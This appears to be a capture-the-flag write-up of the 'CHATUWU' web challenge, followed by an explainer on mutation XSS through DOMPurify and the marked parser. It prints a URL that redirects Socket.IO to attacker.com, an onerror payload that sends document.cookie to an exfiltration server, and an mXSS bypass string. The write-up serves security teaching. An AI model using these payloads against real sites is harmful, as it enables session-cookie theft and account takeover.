 # CHATUWU:

 Challenge Setup:
- A chat server with different rooms
- A bot to accept URLs and an admin bot
- The flag is stored in the admin bot's cookie

We get a room based on certain query parameters set in the URL. Going through the source code, you find a ternary operation which decides what happens in the room:

```javascript
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `[${new Date().toLocaleTimeString()}] ${msg.from}: ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext : item.textContent = msgtext;
    messages.appendChild(item);
    window.scrollTo(0, document.body.scrollHeight);
});
```

## The Problems:
1. You need to set the room to 'DOMPurify' to be able to set `innerHTML`, but if you do that, the `msg` elements are sanitized by DOMPurify first before emitting. So you need to be able to set it to the 'textContent' room to not filter the payload.
2. There is an `isHtml` variable, set by the backend server, which also needs to be `true` to allow editing `innerHTML`.

## Initial Attempt:
Having multiple query parameters of the same name is actually valid in HTML. It's not defined in the HTML spec exactly how this should be handled, so different URL parsers handle it differently. Some, like PHP, create an array of all the values, some only take the last occurrence, or use some other custom implementation.

Here, the client-side check which uses `URLSearchParams(location.search)` takes the last value, and the server socket.io either takes the first value or maybe checks all values. Thus, if you have a URL like this:

```
http://0.0.0.0:58000/?&room=DOMPurify&nickname=guest1369&room=textContent
```

It will connect to room 'textContent' but `query.get("room")` will return 'DOMPurify', and that is then used to set the room, thus potentially allowing `innerHTML` access if the `isHtml` check was not there.

## The Actual Solution:
A completely different approach is required. The socket.io URL is set client-side by using `location.search`, which according to the spec just searches for the first '?' in the URL passed, and everything after that (including the '?') is returned as the query string.

We find the attack of using '@' in the URI. This works because as per the spec [RFC 3986, section 3.2.1](https://www.rfc-editor.org/rfc/inline-errata/rfc3986.html), this format is a valid (but deprecated) 

```
<scheme>://<user>:<password>@<host>:<port>/<url-path>
```

By including an '@' symbol in the nickname parameter, the attackers create a URL that looks like this:

```
http://127.0.0.1:58000/?nickname=x@attacker.com/&room=DOMPurify
```

When this URL is processed by `io(/${location.search})`, it becomes:

```
io(/?nickname=x@attacker.com/&room=DOMPurify)
```

### Socket.IO's Interpretation:
Socket.IO sees this as a connection request to `attacker.com` with the path `/&room=DOMPurify`. It ignores everything before the '@' symbol, treating it as username information.

This crafted URL serves two purposes:
a) It makes Socket.IO connect to the attacker's server instead of the legitimate server.
b) It still includes `room=DOMPurify` as a query parameter, which is used by the client-side code to determine how to handle messages (using `innerHTML`).

Thus, we just set up a socket.io server of our own to accept the connection, send this kind of URL to the bot to make it go to our server, give an XSS payload for the admin bot like:

```html
<img src=x onerror="fetch('https://[exfil server]/'+btoa(document.cookie))">
```

And get the flag.

### Why "?&" was needed (a guess): 
It was the syntax required for `URLSearchParams()` to correctly set the query object to pass the ternary check.

--- 

# Mutated XSS:
Parsing HTML Content and Markdown

Parsing HTML content involves a lot of complex steps. There are a lot of edge cases and caveats with different rules for many specific tags. There is also error correction built into the parsers to, for example, fix missing closing tags. Thus, different parsers might implement the same HTML code in different ways and produce very different outputs. This can change the HTML multiple times depending on the code.
Markdown Parsers and HTML Sanitizers

Markdown is no different. A Markdown parser is basically an watered down HTML parser with all the different tags and options which is still very complex with extended features 
and custom implementations.

On top of these are HTML sanitizers which take in dirty HTML and sanitize it by turning it into code it considers safe. Popular HTML sanitizers work by:

  -   First rendering the HTML into a sandboxed environment and creating a DOM tree
  -   Deleting the harmful nodes
  -  Then creating an HTML string back from that modified DOM

This prevents bypassing by using complex encoding schemes or bypasses in case a blacklist is used by the sanitizer, because people are creative and blacklists are not secure.

So, all this together causes Mutated XSS attacks to work in cases where the HTML is parsed multiple times and the innerHTML is edited. 
So what we can do for this attack is put the XSS payload in a way which looks safe for the sanitizer but when parsed by another parser the payload gets executed after being rendered into some unsafe DOM.
Example of an Attack

Like in this challenge, the payload was inserted into the id of a tag so was not removed by DOMPurify but after parsing through the marked parser it turned into an XSS payload because the marked parser prioritized code blocks before HTML. That is, if it found code blocks \`\`, it transformed the string inside the code block into \<code> tags and then the rest of the HTML.

So what the exploit did was put the XSS payload in the id of an element but closed the block just after the opening quote, like this: 

```
`<p x="`<img src=x onerror=alert(1)>"></p>
```

DOMPurify would not remove anything as nothing looks malicious in this, the malicious thing is in the id which cannot cause damage. But the marked parser saw the \`, converted them to code blocks,
leaving the rest of the things after the second \` as normal HTML which could be executed, something like 

```
<p><code>&lt;p id=&quot;</code><img src=x onerror=alert(1)>&quot;&gt;</p></p>
```

thus mutating the HTML to get XSS.

There are also many other ways mXSS can occur. Like this researcher showed https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss how 
mXSS can occur because some tags allow certain elements while others don't.
It shows why mXSS is so difficult to catch because it utilises such edge cases to bypass the sanitizer.

